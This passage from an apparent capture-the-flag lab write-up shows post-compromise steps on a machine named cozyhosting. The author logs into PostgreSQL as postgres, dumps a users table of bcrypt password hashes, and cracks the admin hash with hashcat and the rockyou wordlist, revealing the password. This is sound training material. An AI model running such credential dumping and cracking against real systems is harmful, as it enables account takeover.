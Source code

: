 Now let's use the postgres database:

```
(remote) app@cozyhosting:/app$ psql -h localhost -U postgres -W
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

I then connected to the `cozyhosting` database:

```
postgres=# \connect cozyhosting
Password:
You are now connected to database "cozyhosting" as user "postgres".
```

Inside the database are a few tables.

```
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)
```

`users` catches my eye, so I get the data from the table.

```
cozyhosting=# SELECT * FROM users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

There's a hash for a user `admin`, I'll attempt to crack it with the [rockyou wordlist from SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz).

```
$ hashcat -a 0 -m 3200 admin.hash ~/Documents/Hacking/Resources/SecLists/Passwords/Leaked-Databases/rockyou.txt

...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib...kVO8dm
...
```
